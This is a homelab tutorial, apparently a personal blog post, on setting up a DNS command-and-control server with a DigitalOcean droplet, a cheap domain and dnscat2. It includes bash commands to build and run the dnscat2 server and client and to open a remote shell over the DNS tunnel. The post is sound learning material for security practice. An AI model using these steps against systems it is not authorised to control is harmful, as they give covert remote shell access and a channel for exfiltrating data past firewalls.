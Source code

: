 ```yaml
---
title: C2 over DNS
categories: [homelab]
tags: [homelab,dns]     # TAG names should always be lowercase
---
```

# Command and Control server over DNS
My sources:
[TryHackMe | DNS in detail](https://tryhackme.com/room/dnsindetail),
[TryHackMe | DNS Manipulation](https://tryhackme.com/room/dnsmanipulation),
[TryHackMe | Data Exfiltration](https://tryhackme.com/room/dataxexfilt).
(These sources explain ways to exfiltrate data over DNS using python and iodine)

Setup your own authoritative DNS server using AWS: [STOK's video](https://www.youtube.com/watch?v=p8wbebEgtDk) 
	
You can use `iodine`, `dnscat2`, and `cobalt strike` for c2 over DNS. I am using dnscat2.

## DNS server setup using digitaloceans
1. Spin up a droplet (2GB memory) - You'll get a public ip address
2. Connect to the server. On Windows you can use the Terminal app with WSL(Ubuntu or Kali) on Windows. You can SSH into the server and continue with the following steps.
3. Create a new user, and setup the terminal environment. `[How-Misc]`
4. Take a snapshot of the droplet
5. Setup the firewall rules for the droplet. All traffic in and out shall be blocked by default. So, you have to manually enable them for your droplet. Manage > Networking > Firewalls
6. //firewall rules shot

## Get a Domain Name
- I went with hostgator. You can find cheap(<$1) domain names like the `.site` TLD.
- Other popular options include namecheap and godaddy.
- You can get a free subdomain from EU.org. You can donate to `nic.eu.org` later if you can't afford a domain name now.
- "The main goal of EU.org is to provide free subdomain registration to users or non-profit organizations who cannot afford the fees demanded by some NICs" - [nic.eu.org](https://nic.eu.org/)
- The only drawback is that it would take about a month for approval. (When asked for nameservers, just point it to the digitalocean nameservers after you setup the domain management)

## Domain management using digitaloceans
[DNS Propagation Checker - Global DNS Testing Tool (whatsmydns.net)](https://www.whatsmydns.net/)
- Set the nameservers
- Add a domain to your droplet
- While making records, make sure that you keep the ttl low till things work (Initially, I chose something around 5 to 15 minutes. Now they are back to defaults). More info: [How to choose DNS TTL values | APNIC Blog](https://blog.apnic.net/2019/09/27/how-to-choose-dns-ttl-values/)
- Set the Records as follows:

## dnscat2 setup
> take the server snapshot before proceeding ==check again==
```bash
# on client
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client/
sudo apt install gcc make
sudo make
# Also, you can wget from the c2 server
# You can use the following command for a directory:
	# wget --no-parent -r http://example.com/DIRECTORY
```

```bash
# on the server
# install ruby (or "ruby-dev" on error: `require` - loaderror) and gem
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo gem install bundler
sudo chown -R example_user /var/lib/gems
sudo apt install ruby-dev make gcc
bundle install
sudo ruby ./dnscat2.rb example.com # your domain name
dnscat2> 
	start --dns port=53531,domain=example.com # you'll get the secret value

# on client
sudo ./dnscat --dns port=53531,server=example.com --secret=<secret_value>
# use the ip address instead of example.com if your domain name is not resolving 

# on server
dnscat2>
	windows
	window -i 1 # session number of the connection
	help # get shell
	window -i 2 # go to the sh window
	
# you can run multiple servers on multiple ports using dnscat2. The client can send different packets to different ports
```
learn more from: [dnscat2](https://github.com/iagox86/dnscat2.git)
